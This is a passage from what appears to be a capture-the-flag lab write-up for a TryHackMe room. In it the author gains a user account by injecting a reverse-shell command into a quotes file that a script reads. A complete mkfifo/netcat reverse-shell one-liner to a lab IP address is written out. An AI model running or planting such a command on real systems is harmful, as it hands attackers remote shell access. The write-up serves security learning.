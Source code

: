 In the .dads_scripts i modified the file .quotes which obviously contained some quotes, and use it as a reverse shell.
```bash
echo ';rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1| nc 10.8.5.181 1234 > /tmp/f' > .files/.quotes 
```

I started the listener, and now i am the user cage.
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Break_out_the_cage/images/72-7.png)

Here is a flag.  
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Break_out_the_cage/images/72-8.png)

Let's further enumerate the contents of email_backup directory.  
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Break_out_the_cage/images/72-9.png)
